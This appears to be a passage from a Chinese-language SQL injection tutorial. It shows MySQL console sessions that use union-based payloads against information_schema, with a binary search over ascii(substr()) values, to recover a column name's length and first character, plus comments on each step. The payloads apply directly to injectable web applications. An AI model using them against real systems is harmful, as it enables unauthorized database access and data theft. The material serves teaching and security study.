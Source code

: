 ```
mysql> select name from user.User where id = 1 and 1=2 union select length(column_name) from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 2    |
+------+
1 row in set (0.03 sec)

由此可知 user 数据库中 User 数据表中的第一个字段名称的长度为2

#使用二分法   判断user数据库中 User 数据表 中 第一个字段名称的  第一个字符是否为 小写

mysql> select name from user.User where id = 1 and 1=2 union select ascii(substr(column_name,1,1)) >=97 from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 0    |   #不为小写
+------+
1 row in set (0.03 sec)


mysql> select name from user.User where id = 1 and 1=2 union select ascii(substr(column_name,1,1)) < 75 from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 1    |
+------+
1 row in set (0.03 sec)

mysql> select name from user.User where id = 1 and 1=2 union select ascii(substr(column_name,1,1)) < 73 from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 0    |
+------+
1 row in set (0.02 sec)

mysql> select name from user.User where id = 1 and 1=2 union select ascii(substr(column_name,1,1)) < 74 from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 1    |
+------+

mysql> select name from user.User where id = 1 and 1=2 union select ascii(substr(column_name,1,1)) = 73 from information_schema.columns where table_schema = 'user' and table_name = 'User' limit 0,1;
+------+
| name |
+------+
| 1    |
+------+
1 row in set (0.02 sec)

#最后ascii值为73 表示第一个字符的指为 'I'

```

